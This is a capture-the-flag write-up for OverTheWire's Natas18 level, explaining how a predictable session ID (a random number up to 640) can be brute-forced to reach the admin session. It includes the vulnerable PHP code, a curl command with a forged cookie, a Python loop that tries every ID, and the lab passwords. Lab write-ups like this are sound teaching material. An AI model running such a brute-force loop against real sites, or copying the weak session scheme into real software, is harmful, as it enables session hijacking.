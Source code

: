 ```yaml
---
category: natas
title: Natas18 - Improper Session Management Part 1
---
```


website: http://natas18.natas.labs.overthewire.org/ (password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP)

In this challenge, the web application will print out natas19's password if certain conditions are met:

```php
function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas19\n";
        print "Password: <censored></pre>";
    } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
```

As shown above, if we can find the session that has `$_SESSION["admin"] == 1`, then we will be able to see the password. What is a session? A session is a sequence of request of response transactions
associated with the same user. It can be used to keep track of a user's actions and status on a website. Once a session is established, a session ID is assigned and temporarily used as an authentication method by the web application. More details about session management can be found in <a href="https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html">this OWASP article</a>.

Going through the rest PHP code, we can see how a session ID is generated in Natas18:

```php
$maxid = 640; // 640 should be enough for everyone 
... ...
function createID($user) {
    global $maxid;
    return rand(1, $maxid);
} 
```

According to the implementation of generating session ID, we have following observations:
1. There are maximum 640 sessions.
2. The session ID is a random integer between 1 and 640.
3. The session ID is contained in a cookie.

Given that it is possible to specify a cookie in an HTTP request, we can a) Iterate each possible session ID, b) Put that session ID in a cookie, c) Send a request with the cookied, and d) Monitors the response returned by the web server. For example, we can send a request by specifying <small>50</small> as its session ID:

```shell
curl -iu natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP http://natas18.natas.labs.overthewire.org/  --cookie "PHPSESSID=50"
```

To break the password, I came up with a python script provided below. It reveals that the password is <small>4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</small>.
 
```python
#!/usr/bin/env python3

import requests
from requests.auth import HTTPBasicAuth


s = requests.Session()
s.auth = HTTPBasicAuth("natas18", "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP")
url = 'http://natas18.natas.labs.overthewire.org/?debug'

# resp = s.post(url, data={"username":'admin', "password":'abc'})
# print(s.cookies.get_dict())
# print(resp.headers)
# print(resp.text)

for i in range(1, 641):
    print(f'Trying PHPSESSID...{i}', end="\r", flush=True)
    resp = s.post(url, data={"username":'admin', "password":'xxx'}, cookies={'PHPSESSID': str(i)})
    if resp and "Password: " in resp.text:
        print(f'\nPHPSESSID found: {i}')
        print(resp.text)
        break
```

<strong>Conclusion</strong>

Because a session ID can be temporarily used as an authentication method by a web application, it is important to ensure its randomness and destroy it after a certain period times
out. Any disclosure of the session ID will lead to session hijacking attacks, where an attacker can impersonate someone else. There are two types of session hijacking attacks:
1. Targeted attacks: The attacker's goal is to impersonate a specific (or privileged) web application victim user. This is what Natas18 has demonstrated.
2. Generic attacks: The attacker's goal is to impersonate (or get access as) <em>any</em> valid or legitimate user in the web application.

<strong>REFERENCE</strong>
1. <a href="https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html">Session Management Cheat Sheet</a>
2. <a href="https://www.php.net/manual/en/function.session-start.php">PHP Manual: session_start</a>
